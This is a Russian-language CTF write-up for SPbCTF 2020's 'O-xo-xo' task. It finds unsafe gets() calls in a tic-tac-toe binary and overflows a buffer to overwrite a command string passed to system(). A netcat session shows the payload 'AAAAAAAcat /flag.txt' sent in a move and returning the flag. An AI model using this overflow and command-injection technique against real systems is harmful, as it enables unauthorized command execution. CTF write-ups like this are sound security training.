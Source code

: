 # O-xo-xo writeup

Воспользуемся `Hex-Rays` для поиска уязвимости в предоставленном в таске исполняемом файле:

![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/SPbCTF's%20Student%20CTF%202020%20Quals/O-xo-xo/assets/pseudocode_of_main_1.jpg)

![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/SPbCTF's%20Student%20CTF%202020%20Quals/O-xo-xo/assets/pseudocode_of_main_2.jpg)

![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/SPbCTF's%20Student%20CTF%202020%20Quals/O-xo-xo/assets/pseudocode_of_main_3.jpg)

Как мы видим, сразу в нескольких участках кода используется уязвимая функция `gets`, считывающая данные до символа переноса строки и, следовательно, позволяющая нам 
переполнить выделенный буфер.

![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/SPbCTF's%20Student%20CTF%202020%20Quals/O-xo-xo/assets/pseudocode_of_main_4.jpg)

Нашей целью будет являться выполнение команды `cat /flag.txt` на удалённом сервере - в этом нам поможет предоставленная в бинарном файле функция `system`, принимающая в 
качестве аргумента буфер `dest` - таким образом, для того, чтобы получить флаг, нам необходимо перезаписать хранящуюся в буфере `dest` строку с командой на нашу строку. 

Откроем вкладку `Stack of main` в `IDA PRO` и посмотрим на организацию стека эксплуатируемой программы:

![Image alt](https://github.com/Burgos1337/capture-the-flag-writeups/blob/master/2020/SPbCTF's%20Student%20CTF%202020%20Quals/O-xo-xo/assets/stack_of_main.jpg)

Получается, что буфер `dest`, хранящий в себе строку с командой, выполняемой на удалённой машине, располагается на стеке как раз после переполняемого буфера, следовательно, 
мы можем заставить программу прочитать флаг, передав ей на одном из ходов игры после координат нагрузку, состоящую из `7` байт мусора (заполнение первого буфера) и самой 
команды `cat /flag.txt` (перезапись содержимого буфера `dest`) - тогда в конце игры вместо прощания будет выведен флаг:
 
```
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/SPbCTF's Student CTF 2020 Quals/O-xo-xo$ nc -nv 109.233.57.95 20202
Connection to 109.233.57.95 20202 port [tcp/*] succeeded!
Turn # 1, it's x's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 _ _ _ _ _ _
 3 _ _ _ _ _ _
 4 _ _ _ _ _ _
 5 _ _ _ _ _ _
 6 _ _ _ _ _ _

Turn # 2, it's o's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 _ _ _ _ _ _
 3 _ _ _ _ _ _
 4 _ _ _ x _ _
 5 _ _ _ _ _ _
 6 _ _ _ _ _ _

Where do you want to put your 'o' (x y)? 1 2
Turn # 3, it's x's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 o _ _ _ _ _
 3 _ _ _ _ _ _
 4 _ _ _ x _ _
 5 _ _ _ _ _ _
 6 _ _ _ _ _ _

Turn # 4, it's o's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 o _ _ _ _ _
 3 _ _ _ _ _ _
 4 _ _ _ x _ _
 5 _ _ _ x _ _
 6 _ _ _ _ _ _

Where do you want to put your 'o' (x y)? 3 4
Turn # 5, it's x's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 o _ _ _ _ _
 3 _ _ _ _ _ _
 4 _ _ o x _ _
 5 _ _ _ x _ _
 6 _ _ _ _ _ _

Turn # 6, it's o's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 o _ _ _ _ _
 3 _ _ _ x _ _
 4 _ _ o x _ _
 5 _ _ _ x _ _
 6 _ _ _ _ _ _

Where do you want to put your 'o' (x y)? 2 5 AAAAAAAcat /flag.txt
Turn # 7, it's x's turn

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 o _ _ _ _ _
 3 _ _ _ x _ _
 4 _ _ o x _ _
 5 _ o _ x _ _
 6 _ _ _ _ _ _

x has won the game!

   1 2 3 4 5 6
 1 _ _ _ _ _ _
 2 o _ _ x _ _
 3 _ _ _ x _ _
 4 _ _ o x _ _
 5 _ o _ x _ _
 6 _ _ _ _ _ _

What would you want to do next?
 1) play again
 2) quit the game
? 2
spbctf{OxOxO_N0w_y0u_REALLY_h4ve_w0n}
burgos1337@LAPTOP-4VD7KB18:/mnt/c/Users/Lenovo/Desktop/SPbCTF's Student CTF 2020 Quals/O-xo-xo$                                                  
```
